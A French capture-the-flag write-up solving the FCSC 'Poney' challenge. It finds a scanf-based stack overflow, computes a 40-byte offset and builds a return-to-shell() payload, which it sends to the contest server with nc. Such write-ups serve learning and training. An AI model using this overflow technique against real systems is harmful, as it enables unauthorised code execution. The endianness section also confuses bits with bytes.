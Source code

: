 # PWN - Poney

## (intro | pwn | aquaponey)

### Énoncé

* On vous demande de lire le fichier flag présent sur le système.
* Service : nc challenges1.france-cybersecurity-challenge.fr 4000
* SHA256(poney) = d95699e40bc6b83c98dbd55dafec97d7730086bae784151796592e28682acd11.

### Résolution

Dans un premier temps il faut se renseigner quand au type de fichier :

```zsh
file ./poney
```

On observe `./poney: ELF 64-bit LSB executable, x86-64`, c'est important et à noter pour la suite !

Autre chose à noter avant de continuer est l'organisation des bits dans la mémoire, il en existe plusieurs types :

* little endian :
   Le bit le moins important est stocké dans l'adresse la plus basse et le plus important, dans l'adresse la plus haute.

* big endian :
   Le bit le plus important est stocké dans l'adresse la plus basse et le moins important dans l'adresse la plus haute.

Pour connaitre cette disposition il faut utiliser la commande :

```zsh
lscpu | grep Endian
```

Pour ce cas ça sera little endian.
C'est important à noter pour la suite !

Grâce à IDA on soutire le code suivant :

```c
int __cdecl main(int argc, const char argv, const char envp)
{
  char v4[32]; // [rsp+0h] [rbp-20h]

  puts("Give me the correct input, and I will give you a shell:");
  printf(">>> ", argv);
  fflush(_bss_start);
  _isoc99_scanf("%s", v4);
  return 0;
}
```

On voit alors qu'il y a un buffer de 32 sans vérification. Essayons alors de rentrer 32*"A" dans poney :

```zsh
python -c 'print "A"*32' | ./poney
```

Ça n'affiche rien, et c'est là que le 64-bits rentre en jeu, étant donné que c'est du 64-bits, il faut rajouter 8 octets au payload pour le faire sauter, ce qui nous donne :

```zsh
python -c 'print "A"*40' | ./poney
```

Ainsi notre shell nous retourne :

```zsh
Segmentation fault (core dumped)
```

C'est exactement ce qu'il nous fallait pour continuer !

En désassemblant notre fichier avec la commande suivante :

```zsh
objdump -d ./poney
```

On observe une fonction shell qui va nous interesser :

```zsh
0000000000400676 <shell>:
  400676:       55                      push   %rbp
  400677:       48 89 e5                mov    %rsp,%rbp
  40067a:       48 8d 3d e7 00 00 00    lea    0xe7(%rip),%rdi        # 400768 <_IO_stdin_used+0x8>
  400681:       e8 d2 fe ff ff          callq  400558 <system@plt>
  400686:       90                      nop
  400687:       5d                      pop    %rbp
  400688:       c3                      retq
```

Pour plus de détial on va l'analyser avec gdb (j'utilise ici peda):

```zsh
gdb ./poney
pdisas shell
```

==>

```zsh
Dump of assembler code for function shell:
   0x0000000000400676 <+0>:     push   rbp
   0x0000000000400677 <+1>:     mov    rbp,rsp
   0x000000000040067a <+4>:     lea    rdi,[rip+0xe7]        # 0x400768
   0x0000000000400681 <+11>:    call   0x400558 <system@plt>
   0x0000000000400686 <+16>:    nop
   0x0000000000400687 <+17>:    pop    rbp
   0x0000000000400688 <+18>:    ret
End of assembler dump.
```

Il faut alors noter l'adresse d'entrée dans le shell : `0x0000000000400676` et c'est là que little endian entre en jeu :
`00 00 00 00 00 40 06 76` => little endian => `76 06 40 00 00 00 00 00`
Nous avons maintenant tout ce qu'il nous faut pour casser le programme ! Il suffit de rentrer 40 caractères pour créer le buffer overflow et compléter le payload avec l'adresse mémoire de notre fonction shell. ce qui nous donne :

```zsh
(python -c 'print "A"*40 + "\x76\x06\x40" + "\x00"*5'; cat -) | nc challenges1.france-cybersecurity-challenge.fr 4000
```

On peut noter qu'à la suite avec un ls on observe notre fichier flag et qu'il suffit de lancer la commande :

```zsh
cat flag
```

Et le tour est joué !
